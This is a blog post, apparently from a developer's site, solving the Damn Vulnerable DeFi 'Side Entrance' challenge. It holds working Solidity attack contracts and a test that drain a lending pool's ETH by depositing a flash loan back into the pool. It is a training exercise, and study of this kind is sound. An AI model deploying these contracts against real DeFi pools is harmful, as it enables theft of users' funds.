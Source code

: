 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #4 Solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #4: Side Entrance'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Oct 10, 2023 06:45 PM'
---
```



# {frontmatter.title}

<Quote />

*Published <FormattedDate client:only="react" date={props.date} />*

> ## Challenge #4 - Side Entrance
>
> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

`SideEntranceLenderPool` keeps track of all accounts' balances inside of the `balances` mapping. We can increment our balance through the `deposit` function. The `flashLoan` function gives us access to the pool's whole balance as long as we repay by the end of its execution.

Notably, this contract does not employ any sort of reentrancy protection. We can create a contract that takes the pool's balance, deposits it back into the pool, and therefore assigns it to its own address in the `balances` mapping. This keeps the pool's balance the same, satisfying the condition that the pool cannot have less ETH than what it had before the flash loan.

```solidity
// contracts/side-entrance/FlashLoanEtherReceiver.sol

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract FlashLoanEtherReceiver {
    function infiltrate(
        SideEntranceLenderPool pool,
        uint256 amount
    ) public {
        pool.flashLoan(amount);

        pool.withdraw();

        payable(msg.sender).transfer(amount);
    }

    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{
            value: msg.value
        }();
    }

    receive() external payable {}
}
```

This works, but it would be much more epic and cool if we could infiltrate the pool in a single transaction, rather than first deploying and then calling a function.

The body of the `infiltrate` function cannot simply be transferred to the `constructor` of a contract. The pool calls `execute` on `msg.sender` when we call `pool.flashLoan(amount)`. The contract would still be initializing, and its runtime code would not be available. `flashLoan` would revert because the contract's `execute` function would not exist yet.

We can deploy `FlashLoanEtherReceiver` from another contract and call `infiltrate` atomically.

```solidity
// contracts/side-entrance/FlashLoanEtherReceiverDeployer.sol

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./FlashLoanEtherReceiver.sol";

contract FlashLoanEtherReceiverDeployer {
    constructor(SideEntranceLenderPool pool, uint256 amount) {
        new FlashLoanEtherReceiver().infiltrate(pool, amount);
    }
}
```

We just need to change where the ETH will be transferred. `msg.sender` is the deployer now, and it cannot accept transfers to it without a `receive` function. We could add it in and implement a `withdraw` function, but I opted to change the `infiltrate` function.

```solidity
function infiltrate(
    SideEntranceLenderPool pool,
    uint256 amount
) public {
    pool.flashLoan(amount);

    pool.withdraw();

    // `msg.sender` is the address that calls `infiltrate`.
    // `FlashLoanEtherReceiverDeployer` in this case.
    //
    // `tx.origin` is the externally owned account that starts the whole transaction.
    payable(tx.origin).transfer(amount);
}
```

Now all we have to do is deploy `FlashLoanEtherReceiverDeployer` and pass in the pool and the amount as arguments. This solution does not even use our own balance! (except for gas, of course)

```js
// test/side-entrance/side-entrance.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory(
      'FlashLoanEtherReceiverDeployer',
      player
    )
  ).deploy(pool.address, ETHER_IN_POOL)
})
```
